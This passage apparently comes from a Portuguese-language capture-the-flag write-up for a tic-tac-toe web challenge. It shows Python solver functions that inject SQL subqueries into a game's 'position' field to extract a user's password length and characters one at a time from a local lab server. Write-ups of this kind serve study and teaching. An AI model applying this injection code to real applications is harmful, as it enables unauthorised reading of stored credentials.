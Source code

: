 ```python=89
def get_encoded_password(game_key):
    size = insert_pwd_size(game_key)
    encoded = brute_pwd(game_key, size)

    result_str = ''
    for code in encoded[1:]:
        result_str += chr(code)

    return result_str
```

Pegamos primeiro o tamanho da senha com a função `insert_pwd_size`:

```python=64
def insert_pwd_size(game_key):
    data = {
        'position': f'(select length(password) from users where id = 1)',
    }

    request(f'/game/{game_key}/move', data=data)

    return int(get_my_moves(game_key)[0])
```

Depois inserimos o código de caractere por caractere com as funções `brute_pwd` e `insert_pwd_pos` (ignorando a saída):

```python=57
def insert_pwd_pos(game_key, pwd_position):
    data = {
        'position': f'(select ord(substring(password, {pwd_position+1}, 1)) from users where id = 1)',
    }

    return request(f'/game/{game_key}/move', data=data)
```

```python=73
def brute_pwd(game_key, size):
    for pos in range(size):
        insert_pwd_pos(game_key, pos)

    return get_my_moves(game_key)
```

Depois de tudo inserido às cegas, mas com esperança, pegamos o resultado com a função `get_my_moves`.

```python=73
def get_my_moves(game_key):
    response = request(f'/game/{game_key}/info', data=None, method='GET')
    return response.json()['X']
```

A partir daí, já temos o nosso resultado em base64 pra decodificar. Bora rodar essa praga.
Obs: o código do [solver.py](https://github.com/Neptunians/bhack-ctf-jogo-da-velha/blob/main/solver.py) aponta para `http://localhost:5000`, que é o endereço ambiente local, definido no `docker-compose.yml`.
